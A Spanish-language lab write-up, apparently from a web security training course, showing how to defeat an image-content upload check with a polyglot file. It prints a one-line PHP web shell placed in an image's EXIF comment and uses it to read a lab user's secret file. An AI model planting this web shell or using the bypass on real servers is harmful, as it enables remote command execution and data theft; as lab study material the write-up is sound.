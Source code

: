 En esta clase enfrentamos una protección más avanzada que inspecciona el contenido de los archivos subidos para asegurarse de que sean imágenes reales. Sin embargo, logramos evadir este control creando un archivo **polyglot**, es decir, un archivo que es a la vez una imagen válida y un script PHP.

Utilizando herramientas como ExifTool, incrustamos nuestro payload PHP en los metadatos de la imagen, específicamente en el campo de comentarios, y le damos una extensión .php. Aunque el servidor interpreta el archivo como una imagen, al acceder a él lo ejecuta como código, permitiéndonos recuperar el contenido del archivo secreto de Carlos.

Este enfoque demuestra cómo combinar formatos de archivo puede burlar validaciones aparentemente sólidas.

Solucion
nos logeamos y subimos el arhivo
![Pasted_image_20250830210153.png](Imagenes/Pasted_image_20250830210153.png)
ahora nos vamos al historico y mandamo al repeater la peticion get
ahora si nosotros ponesmo GIF8; el servidor va interpretar que estamos subiendo un archivo .git
![Pasted_image_20250830210525.png](Imagenes/Pasted_image_20250830210525.png)
![Pasted_image_20250830210627.png](Imagenes/Pasted_image_20250830210627.png)
otra opcion es la siguiente
descargamos una imagen
y verificamos los metadatos
![Pasted_image_20250830211346.png](Imagenes/Pasted_image_20250830211346.png)
y aqui la idea es agarra la parte de coment y ponerle el archivo php
<?php system($_GET['cmd']); ?>
![Pasted_image_20250830211652.png](Imagenes/Pasted_image_20250830211652.png)
![Pasted_image_20250830211730.png](Imagenes/Pasted_image_20250830211730.png)
ahora vamos a testearlo
![Pasted_image_20250830211832.png](Imagenes/Pasted_image_20250830211832.png)
y ya solo subimos el archivo y lo vemos
![Pasted_image_20250830212109.png](Imagenes/Pasted_image_20250830212109.png)
![Pasted_image_20250830212300.png](Imagenes/Pasted_image_20250830212300.png)
